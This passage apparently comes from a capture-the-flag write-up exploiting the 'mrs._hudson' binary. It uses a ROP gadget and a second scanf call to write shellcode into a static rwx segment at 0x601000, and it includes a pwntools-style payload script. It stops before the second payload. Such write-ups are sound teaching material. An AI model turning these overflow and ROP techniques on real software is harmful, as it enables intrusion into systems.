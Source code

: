 So we can see a `rwx` segment that starts at `0x601000` and ends at `0x602000`. This is a segment of memory that has a static address, we can write  to it, and we can execute it. This is perfect for us. Since scanf is used by the program, we can just call that again to scan input into `0x601000`, with the input being shellcode. Then it would just be a matter of setting the return address to `0x601000` to run the shellcode.

The first thing we should grab in order to do this is a rop gadget. We need a ROP gadget that will pop a single argument into the rbp register (reason will become apparant soon), then return. In order to do this, we can use ROPgadget.

```
$	ROPgadget --binary mrs._hudson | less
```

Looking through the list of gadgets, we find one that we can use:

```
0x0000000000400575 : pop rbp ; ret
```

So now that we have our ROP gadget, the next thing we will need is the address we will use to call `scanf`. Now instead of just grabbing the address of scanf and using that, we will be using the assembly address which is where the code start preparing for the `scanf` call, so it will be less work for us. This address is `0x40066f`:

```
  40066f:       48 8d 45 90             lea    rax,[rbp-0x70]
  400673:       48 89 c6                mov    rsi,rax
  400676:       bf 2b 07 40 00          mov    edi,0x40072b
  40067b:       b8 00 00 00 00          mov    eax,0x0
  400680:       e8 9b fe ff ff          call   400520 <__isoc99_scanf@plt>
```

Now the last thing we will need is the address which we are going to write to, which we already have `0x601000`. We can see here that the address that is being written to is loaded from rbp-0x70 (reason why we needed it to be popped into the rbp register). Now if we just give it the address `0x601000`, because of the `-0x70` it will write to the address `0x601000 - 0x70` which will cause our exploit to fail. So we need to give it the address `0x601000 + 0x70` in order for it to work.

With all of that, we are left with this as our first payload which we will send:

```
#Establish the address needed
scanf  = 0x40066f
memory = 0x601000
gadget = 0x400575

#gdb.attach(target)

#Establish the first payload, and send it
payload0 = "0"*120 + p64(gadget) + p64(memory + 0x70) + p64(scanf)
target.sendline(payload0)
```

So the next step is just to send the program the shellcode, and then run it. When we start the scanf call via ROP, the start of our input is just 120 bytes away from the start of our input (and we have no limit as to the amount of characters we can write), we can just overwrite it and use it to jump to `0x601000`.  With this, we get our second payload:
